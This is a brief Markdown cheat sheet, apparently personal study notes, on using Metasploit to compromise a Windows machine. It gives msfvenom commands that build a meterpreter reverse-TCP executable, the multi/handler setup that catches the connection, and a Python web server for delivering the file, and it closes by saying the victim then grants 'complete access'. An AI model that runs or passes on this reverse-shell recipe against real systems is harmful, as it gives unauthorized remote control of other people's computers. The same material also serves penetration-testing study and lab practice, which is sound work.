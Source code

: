 # Metasploit

**Payload**, the code to be executed on the victim machine.

```bash
msfconsole
```

```bash
msfvenom -p <payload> LHOST=<your_ip> LPORT=<your_port> -f <format> -o <filename>
```

`msfvenom` tool used to generate payloads.

-p used to specify type of payload. (ie reverse shell)
-f format of the file (exe, elf, raw)


```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<myip> LPORT=4444 -f exe -o payload.exe
```

generates the payload.

```bash
use multi/handler # inside metasploit console
set payload windows/meterpreter/reverse_tcp
show options

```

with no antivirus for windows.

create tmp website
```
python -m http.server 8080
```

You have to get the payload and run it on windows. Now you have complete access to the windows machine.

---
